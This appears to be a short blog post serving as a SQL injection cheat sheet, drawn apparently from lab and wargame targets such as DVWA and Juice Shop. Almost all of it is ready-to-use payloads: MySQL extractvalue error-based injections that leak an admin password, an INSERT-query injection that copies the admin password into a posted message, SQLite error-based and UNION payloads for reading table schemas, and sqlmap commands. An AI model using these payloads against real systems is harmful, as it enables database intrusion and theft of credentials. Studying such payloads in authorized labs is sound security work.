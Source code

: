 ```yaml
---
title: SQL Injection
author: janger
date: 2023-09-25
category: Web Hacking
layout: post
---
```



## MySQL Error based sql injection

~~~ sql
admin' AND extractvalue(null, ( SELECT upw from user where uid='admin' ) );

# output : (1105, "XPATH syntax error: 'PasSwOrD123...'")


admin' AND extractvalue(null, concat(0x23, ( SELECT upw from user where uid='admin' ) ) );
admin' AND extractvalue(null, concat(0x23, ( SELECT substring(upw, 1, 20) from user where uid='admin' ) ) );
admin' AND extractvalue(null, concat(0x23, ( SELECT substring(upw, 21, 100) from user where uid='admin' ) ) );
~~~

<br>

## MySQL Insert query injection

~~~ sql
-- example
insert into tmitter_board(idx, id, msg, etc) values (0, 'guest', 'hello', 0);

-- payload
asdf1234', null), (0, 'admin', (select ps from tmitter_user where id='admin'), 0)#

-- result
insert into tmitter_board(idx, id, msg, etc) values (0, 'asdf1234', null), (0, 'admin', (select ps from tmitter_user where id='admin'), 0)#', 'hello', 0); 
~~~

<br>

## SQLite Error based injection

~~~ sql
AND CASE WHEN (SELECT 1 FROM Users WHERE email='jim@juice-sh.op') THEN 1 ELSE load_extension(1) END;
~~~

<br>

## SQLite Extract table name, sql

~~~ sql
UNION SELECT name,sql,3,4,5,6,7,8,9 FROM sqlite_master WHERE type='table';
~~~


<br>

## SQLMap

~~~ bash
sqlmap --cookie="PHPSESSID=4ppgmkccp0ie0d6b6432vp5boo; security=low" -u "http://localhost/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --current-db
sqlmap --cookie="PHPSESSID=4ppgmkccp0ie0d6b6432vp5boo; security=low" -u "http://localhost/DVWA/vulnerabilities/sqli_blind/?id=a&Submit=Submit#" -p id --current-db
~~~





